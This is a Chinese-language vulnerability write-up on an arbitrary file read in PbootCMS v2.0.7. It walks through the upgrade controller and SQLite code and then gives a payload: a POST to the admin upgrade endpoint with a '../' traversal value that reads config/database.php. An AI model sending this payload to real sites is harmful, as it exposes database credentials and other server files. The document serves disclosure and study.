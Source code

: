 ```yaml
---
title: PbootCMS v2.0.7 任意文件读取
id: zhfly3070
---
```


# PbootCMS v2.0.7 任意文件读取

## 一、漏洞简介

仅限在Windows下，Linux不支持在不存在的文件夹下上跳，Linux下利用的话得找到一个系统或者程序自带的/script/目录

## 二、漏洞影响

PbootCMS v2.0.7

## 三、复现过程

### 漏洞分析

漏洞文件`apps/admin/controller/system/UpgradeController.php`

```
<?php
    ...
    public function update(){
        if ($_POST) {
            if (! ! $list = post('list')) {
                $list = explode(',', $list);
                $backdir = date('YmdHis');

```
 // 分离文件
            foreach ($list as $value) {
                if (stripos($value, '/script/') !== false) {
                    $sqls[] = $value;
                } else {
                    $path = RUN_PATH . '/upgrade' . $value;
                    $des_path = ROOT_PATH . $value;
                    $back_path = DOC_PATH . STATIC_DIR . '/backup/upgrade/' . $backdir . $value;
                    if (! check_dir(dirname($des_path), true)) {
                        json(0, '目录写入权限不足，无法正常升级！' . dirname($des_path));
                    }
                    if (file_exists($des_path)) { // 文件存在时执行备份
                        check_dir(dirname($back_path), true);
                        copy($des_path, $back_path);
                    }

                    // 如果后台入口文件修改过名字，则自动适配
                    if (stripos($path, 'admin.php') !== false &amp;&amp; stripos($_SERVER['SCRIPT_FILENAME'], 'admin.php') === false) {
                        if (file_exists($_SERVER['SCRIPT_FILENAME'])) {
                            $des_path = $_SERVER['SCRIPT_FILENAME'];
                        }
                    }

                    $files[] = array(
                        'sfile' =&gt; $path,
                        'dfile' =&gt; $des_path
                    );
                }
            }

            // 更新数据库
            if (isset($sqls)) {
                $db = new DatabaseController();
                switch (get_db_type()) {
                    case 'sqlite':
                        copy(DOC_PATH . $this-&gt;config('database.dbname'), DOC_PATH . STATIC_DIR . '/backup/sql/' . date('YmdHis') . '_' . basename($this-&gt;config('database.dbname')));
                        break;
                    case 'mysql':
                        $db-&gt;backupDB();
                        break;
                }
                sort($sqls); // 排序
                foreach ($sqls as $value) {
                    $path = RUN_PATH . '/upgrade' . $value;
                    if (file_exists($path)) {
                        //echo $path;
                        //exit;
                        $sql = file_get_contents($path);
                        if (! $this-&gt;upsql($sql)) {
                            $this-&gt;log("数据库 $value 更新失败!");
                            json(0, "数据库" . basename($value) . " 更新失败！");
                        }
                    } else {
                        json(0, "数据库文件" . basename($value) . "不存在！");
                    }
                }
            }

            // 替换文件
            if (isset($files)) {
                foreach ($files as $value) {
                    if (! copy($value['sfile'], $value['dfile'])) {
                        $this-&gt;log("文件 " . $value['dfile'] . " 更新失败!");
                        json(0, "文件 " . basename($value['dfile']) . " 更新失败，请重试!");
                    }
                }
            }

            // 清理缓存
            path_delete(RUN_PATH . '/upgrade', true);
            path_delete(RUN_PATH . '/cache');
            path_delete(RUN_PATH . '/complite');
            path_delete(RUN_PATH . '/config');

            $this-&gt;log("系统更新成功!");
            json(1, '系统更新成功！');
        } else {
            json(0, '请选择要更新的文件！');
        }
    }
}
... 
``` `?>` 
```

可以看到注释写着更新数据库的部分，将`$sqls`遍历出来后放进了`file_get_contents`函数，然后调用了一个`upsql()`方法。跟过去看一下。

```
<?php
    // 执行更新数据库
    private function upsql($sql){
        $sql = explode(';', $sql);
        $model = new Model();
        foreach ($sql as $value) {
            $value = trim($value);
            if ($value) {
                $model->amd($value);
            }
        }
        return true;
    }
?> 
```

将传过来的字符串用`;`分隔后又调用了一个`Model::amd()`方法。继续跟下去。

文件`core/database/Sqlite.php`

```
<?php
    ...
    // 数据增、删、改模型，接受完整SQL语句，返回影响的行数的int数据
    public function amd($sql){
        $result = $this->query($sql, 'master');
        if ($result) {
            return $result;
        } else {
            return 0;
        }
    }
    // 执行SQL语句,接受完整SQL语句，返回结果集对象
    public function query($sql, $type = 'master'){
        ...
        switch ($type) {
            case 'master':
                if (! $this->begin) { // 存在写入时自动开启显式事务，提高写入性能
                    $this->master->exec('begin;');
                    $this->begin = true;
                }
                $result = $this->master->exec($sql) or $this->error($sql, 'master');
                break;
            case 'slave':
                $result = $this->slave->query($sql) or $this->error($sql, 'slave');
                break;
        }
        return $result;
    }
    // 显示执行错误
    protected function error($sql, $conn){
        $err = '错误：' . $this->$conn->lastErrorMsg() . '，';
        if ($this->begin) { // 存在显式开启事务时进行回滚
            $this->master->exec('rollback;');
            $this->begin = false;
        }
        error('执行SQL发生错误！' . $err . '语句：' . $sql);
    }
    ...
?> 
```

这里的`amd()`方法又调用了一个`query()`方法，在`query()`方法里可以看到直接将`$sql`放进SQL执行函数里，如果执行失败，直接将`$sql`打印出来。

这样看下来这里的漏洞可以拿来执行任意SQL语句，但是由于这里用的是`sqlite`数据库，且当前已经在后台里了，所以这里的任意SQL执行也没啥可以利用的。**（可能可以审一下用数据库里的数据当做输入的点，没准能利用起来）**

但是由于正常的文件内容读出来直接当做SQL语句执行肯定会报错，所以这里可以用来读取文件。

经过回溯可以发现`$sqls`，使用的POST传输过来的数据，且数据中需要有`/script/`字符串。

### payload

```
URL: http://www.0-sec.org/admin.php?p=/Upgrade/update
POST: list=/script/../../../config/database.php 
```

即可读取到文件**（仅限在Windows下，Linux不支持在不存在的文件夹下上跳，Linux下利用的话得找到一个系统或者程序自带的/script/目录）**

## 参考链接

> https://xz.aliyun.com/t/7628